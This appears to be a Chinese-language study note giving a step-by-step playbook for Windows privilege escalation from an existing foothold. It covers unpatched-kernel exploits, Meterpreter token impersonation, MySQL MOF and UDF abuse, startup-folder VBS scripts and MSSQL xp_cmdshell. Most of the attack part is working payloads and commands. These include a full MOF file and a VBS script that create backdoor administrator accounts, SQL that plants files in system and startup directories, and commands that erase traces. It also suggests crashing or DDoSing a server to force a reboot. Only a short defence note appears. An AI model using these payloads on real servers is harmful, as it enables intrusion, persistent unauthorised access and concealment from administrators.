# Windows提权

## 系统漏洞提权

> 	系统漏洞提权一般就是利用系统自身缺陷，用来提升权限windows和linux系统均有提权用的可执行文件：  
> 权限低，受限制的用户  通过系统漏洞提权 至高无上的权限
>
> 	**常规流程**
>
> 获取目标shell--查看补丁记录（找没有补丁的）-- 寻找对应的exp -- 使用exp提取

#### 查看补丁记录

##### systeminfo查看补丁信息

​​

##### 查询没有安装哪些补丁

```bash
#检查系统信息中是否安装了特定的Windows补丁，并报告未安装的补丁。完成后，它会删除临时创建的文本文件
systeminfo>snowming.txt&(for %i in (KB4525235 KB4525233) do @type snowming.txt|@find /i "%i"|| @echo no this padding: %i)&del /f /g /a snowming.txt
```

#### 在线查询工具：

[http://blog.neargle.com/win=powerup-exp-index/#](https://blog.neargle.com/win-powerup-exp-index/)  
[http://tools.sbbbb.cn/tiquan/](http://tools.sbbbb.cn/tiquan/)​[http://bypass.tidesec.com/exp/](http://bypass.tidesec.com/exp/)

​​​​

‍

##### 查找对应的提权exp

github中作者整合了大部分windows本地提权用到的exp

[https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)

​​​​

#### 提权步骤

getshell --- 查看系统补丁---下载exp--上传至提权

​​​​

##### 2012实验

###### shell连接之后上传ms16-032exp，虚拟终端运行创建用户

​​

###### ms16-075配合msf提权，反弹msf配合烂土豆提权

```bash
use incognito #该模块用来窃取令牌、模仿令牌
list_tokens -u #列举当前的令牌
execute -cH -f ./potato.exe #执行exp
list_tokens -u #查看令牌，有一个SYSTEM权限的模仿令牌
impersonate_token "NT AUTHORITY\SYSTEM" #执行偷取窃取令牌命令
```

​​​​

## 数据库提权

### MYSQL数据库提权

#### 1.必要条件：获取最高权限root密码

#### 2.获取方法

* 查看数据库配置文件

  * 关键字：config conn data sql inc database 等
* 下载MYSQL安装路径下的数据文件并破解

  * 安装路径下的data目录中存放的是数据库的信息
  * root账号密码存储在MYSQL数据下的user表中
  * 完整路径=安装路径+data+mysql+user.myd
* 暴力破解

  * Hscan Hydra X-scan等

#### 3.提权方法

##### MOF提权

###### 原理

利用了c:/windows/system32/wbem/mof/目录下的 nullevt.mof ​文件

该文件每分钟都会在一个特定的时间去执行一次的特性，通过写入cmd命令使其被带入执行

###### 利用条件

Windows &lt;= 2003

对 c:/windows/system32/webm/mof 目录有读写权限

可以实现写mof文件到相应目录，例如:<u>数据库允许外联、有webshell、有可写的sql注入漏洞</u>等情况

​​

###### 提权方法

1.可写目录中上传mof文件（创建用户）

nullevt.mof文件

```bash
#pragma namespace("\\\\.\\root\\subscription")

instance of __EventFilter as $EventFilter
{
	EventNamespace = "Root\\Cimv2";
	Name  = "filtP2";
	Query = "Select * From __InstanceModificationEvent "
			"Where TargetInstance Isa \"Win32_LocalTime\" "
			"And TargetInstance.Second = 5";
	QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as $Consumer
{
	Name = "consPCSV2";
	ScriptingEngine = "JScript";
	ScriptText =
	"var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user admingua 1qaz@WSX /add\")";
};

instance of __FilterToConsumerBinding
{
	Consumer   = $Consumer;
	Filter = $EventFilter;
};


```

​​​​

2.执行load_file及into dumpfile把文件导出到正确位置

```bash
select load_file('上传的mof文件路径') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof'
```

🌰用DBeaver连接数据库执行mySQL语句，将mof文件到指定位置c:/windows/system32/wbem/mof/nullevt.mof

```bash
select load_file('c:/phpstudy/www/nullevt.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof' 
```

​​

‍

3.执行成功后，验证mof文件中的cmd命令是否执行

🌰在蚁剑虚拟终端查看是否创建此用户​​

4.同样的方法修改mof文件再重复上次的步骤，可以将用户添加到管理组

###### 防御

当发现服务器被使用mof提权，解决继续创建用户的方法:

1.先停止winmgmt服务:net stop;

2.删除文件夹:c:/windows/system32/wbem/repository

3.再启动winmgmt服务:net start winmgmt

##### UDF提权

###### 原理

> UDF(User Defined Function)用户自定义函数，支持用户自定义
>
> 通过添加新的函数，对mysql服务器进行功能扩充，从而创建函数，将MYSQL账号转化为系统system权限
>
> UDF提权是<u>通过</u>​<u>root权限导出udf.dll到系统目录</u><u>下，可以通过</u>​<u>udf.dl调用执行cmd</u>

###### 利用条件

1.Windows 2000、XP、2003

2.MySQL数据库版本

3.账号具有对MySQL的插入和删除权限

4.可以将udf.dll写入到相应目录的权限

|数据库版本|操作系统|udf.dll文件导出路径|
| ----------------------------------| -----------------------------------------------------| -----------------------------------------------------------------------------------------------------------------------------------------------------|
|<5.0|所有操作系统|导出路径随意|
|<=5.1|windows2003<br />windows2000|c:\windows\system\udf.dll<br />c:\winnt\system32\udf.dll|
||||
|>5.1|所有操作系统|MySQL安装目录下的lib\plugin\udf.dll<br />通过语句查询：select @@plugin_dir|

###### 步骤

* 判断条件，注意操作系统版本

  ```bash
  SELECT version();                          #查看数据库版本
  SELECT user();                             #查看数据库用户
  SELECT @@basedir;                          #查看数据库安装目录
  show global variables like "secure%";      #查看secure-file-priv是否有目录限制
  show variables like 'plugin%';             #查看plugin目录是否存在
  ```

  ​​​

  * PS：MySQL版本高于5.1，创建导出的文件夹

    * /lib/plugin目录本身是不存在的，可以利用NTFS ADS流来创建文件夹

      ```bash
      select 'xxx' into dumpfile 'MySQL目录\\lib::$INDEX_ALLOCATION';
      select 'xxx' into dumpfile 'MySQL目录\\lib\\plugin::$INDEX_ALLOCATION';
      ```
    * 也可以结合webshell直接在MySQL安装路径下创建plugin目录
* 导出DLL文件，将DLL文件导出到指定目录下；

  * 获取方法

    * 在sqlmap/data/udf/mysql/目录下，在Windows目录中有32位和64位dll文件（MySQL位数）
    * 文件夹中的dll文件是通过异或编码的，可以使用sqlmap/extra/cloak.py进行解密
    * **修改**

      > 将udf文件放到指定位置（Mysql>5.1放在Mysql根目录的lib\plugin文件夹下）从udf文件中引入自定义函数(user defined function)执行自定义函数先看第一步，拿到一个网站的webshell之后，在指定位置创建udf文件。如何创建？先别忘了，现在连源udf文件都没有。  
      > sqlmap中有现成的udf文件，分为32位和64位，一定要选择对版本，否则会显示：Can‘t open shared library ‘udf.dll‘。  
      > 获取sqlmap的udf请看链接：MySQL 利用UDF执行命令/52413974然后将获得的udf.dll文件转换成16进制，
      >
      > 一种思路是在本地使用mysql函数hex：
      >
      > ```bash
      > SELECT hex(load_file(0x433a5c5c55736572735c5c6b61316e34745c5c4465736b746f705c5c6c69625f6d7973716c7564665f7379732e646c6c)) into dumpfile ‘C:\\Users\\ka1n4t\\Desktop\\gg.txt‘; 
      > ```
      >
      > load_file中的十六进制是C:\\Users\\ka1n4t\\Desktop\\lib_mysqludf_sys.dll此时gg.txt文件的内容就是udf文件的16进制形式。接下来就是把本地的udf16进制形式通过我们已经获得的webshell传到目标主机上。
      >

      ```bash
      1. CREATE TABLE udftmp (c blob); //新建一个表，名为udftmp，用于存放本地传来的udf文件的内容。
      2. INSERT INTO udftmp values(unhex(‘udf文件的16进制格式‘)); //在udftmp中写入udf文件内容
      3. SELECT c FROM udftmp INTO DUMPFILE ‘H:\\PHPStudy\\PHPTutorial\\MySQL\\lib\\plugin\\udf.dll‘; //将udf文件内容传入新建的udf文件中，路径根据自己的@@basedir修改
      ```
  * 将dll文件上传到mysql的/lib/plugin目录下
* 创建临时表存放DLL/SO文件的十六进制内容

  ```bash
  CREATE TABLE wugua(shellcode BLOB);
  ```

  ​​
* 执行SQL语句创建自定义函数：

  ```bash
  create function sys_eval returns string soname "udf.dll";  //syseval是自定义函数，PS必须是udf.dll文件中有的定义函数，returns String是指返回值的类型，soname指定了包含该函数实现的共享库的名称，这里udf.dll是这个共享库的文件名
  ```

  ​​

  PS:需要创建dll文件中存在的函数，可以使用十六进制编辑器打开dll文件，可以查看到可利用的函数

  ​​
* 执行函数，创建账号并提升为管理员权限

  ```bash
  select sys_eval("net user admingua1 123.com /add");
  select sys_eval("net localgroup administrators admingua1 /add");
  ```
* 清理痕迹

  ```bash
  drop function sys_eval;
  delete from mysql.func where name="sys_eval";
  ```

  ​​​​

​​

##### 启动项提权--vbs

###### 原理

将一段VBS脚本导入到开机启动项中，如果管理员重启了服务器，那么就会自动调用该脚本，并执行其中的用户添加及提权命令

###### 利用条件

1.上传到目录必须具备可读写的权限

2.调用的cmd也必须有足够的权限

3.重启服务器可以利用一些可导致服务器蓝屏的exp，或者DDOS拒绝服务

###### 提权方式

* 直接将vbs提权脚本上传到启动项目录下

  * ​​

    vbs提权脚本代码：

    guagua.vbs

    ```bash
    set wsnetwork=CreateObject("WSCRIPT.NETWORK") 
    os="WinNT://"&wsnetwork.ComputerName 
    Set ob=GetObject(os)         '得到adsi接口,绑定 
    Set oe=GetObject(os&"/Administrators,group")       '属性,admin组 
    Set od=ob.Create("user", "guagua")         '建立用户 
    od.SetPassword "123.com"        '设置密码 
    od.SetInfo         '保存 
    Set of=GetObject(os&"/guagua",user)        '得到用户 
    oe.add os&"/guagua"
    ```

    将该文件上传到启动项目就可以C:/Documents and Settings/All Users/

    查看用户

    ​​
* 利用sql命令来进行vbs脚本的创建及添加

  * ```bash
    create table gua(cmd text);
    insert into gua values("set wshshell=createobject(""wscript.shell"")");
    insert into gua values("a=wshell.run(""cmd.exe /c net user gua1 1qaz@WSX /add"",0)");
    insert into gua valuse("b=wshell.run(""cmd.exe /c net user localgroup administrators gua1 /add"",0)");
    ```

    ​​

    输出表为一个vbs的脚本文件

    ```bash
    SELECT * from gua into dumpfile "C:\Document and Settings\Administrator\「开始」菜单\1.vbs"
    ```

    ​​

### MSSQL数据库提权

#### 利用条件

##### 1.必须获得sa的账号密码或者与sa相同给权限的账号密码，且mssql没有被降权

###### 获取sa的账号密码方法

* **webshell或源码获取**

  一般在网站的配置文件中有存明文账号密码，常用配置文件：conn.apx config.aspx config.php等

  一般格式：sever=localhost;UID=sa;PWD=ichunqiu;database=ichunqiu
* **源代码泄露**

  网站源码泄露情况主要以程序员上传代码到git等开源平台或更新代码时未删除备份文件，以及运维人员打包源代码  
  到网站服务器
* **嗅探**  
  在局域网中使用 Cain 等工具进行 arp嗅探 的时候可以抓取到1433端口的数据库明文登录密码
* **口令暴力破解**  
  利用mssql暴力破解工具对mssql进行破解，成功后会获得sa相应的权限

##### 2.必须可以以某种方式执行sql语句，例如webshell或者1433端口连接

‍

#### xp_cmdshell提权

> cp_cmdshell脚本是扩展存储过程的脚本，是危险性最高的"小脚本"，可以执行操作系统的任何指令
>
> 存储过程
>
> 	是存储在sqlserver中预先定义好的“SQL语句集合”，用来实现一些复杂操作
>
> 	使用T-SQL语言编写好的各种小脚本共同组成的集合体--存储过程，类似udf
>
> PS：
>
> 1.xp_cmdshell默认在mssql2000中是开启的，在2005之后的版本中是默认禁止
>
> 2.如果用户拥有管理员sa权限则可以使用sp_configure重新启动它

###### 提取过程（2005版本之后）

1.开启xp_cmdshell

```bash
exec sp_configure 'show advanced options',1;   //允许修改高级参数
reconfigure;
exec sp_configure 'xp_cmdshell',1;            //打开xp cmdshell 扩展
reconfigure;
```

​​

2.xp_cmdshell执行命令

```bash
exec xp_cmdshell 'net user ichungiu 123.com /add';                //添加用户ichungiu，密码123.com
exec xp_cmdshell ' net localgroup administrators ichungiu /add';  //添加ichungiu到管理员组
```

​​​​

‍

###### 提取过程（2005之前）

1.连接数据库 select name from master.dbo.sysdatabases;   //获取所有的数据库名

​​

2.查看相关信息

```bash
select @@version                      查看当前版本
select is_srvrolemember('sysadmin')   判断当前是否为sa.如果返回值为1，则表示是sysadmin角色的成员；如果返回值为0，则表示不是。
select is_srvrolemember('public')     判断是否有public权限，public具有最低权限
select is_srvrolemember('db_owner')   判断当前用户写文件、读文件的权限
```

​​

​​​​​​​​​​

3.查看数据库中是否有 xp_cmdshell 扩展存储插件，返回值为1则说明该数据库中有插件

```bash
select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell';
```

​​

4.执行命令

```bash
exec xp_cmdshell 'net user guawa 123.com /add';               //添加用户ichunqiu，密码123.com
exec xp_cmdshell 'net localgroup administrators guawa /add';  //添加ichungiu到管理员组
```

​​​​

###### 🌰栗子

目标网站asp+sqlserver

​​

这里使用sqlmap --os-shell去查看权限

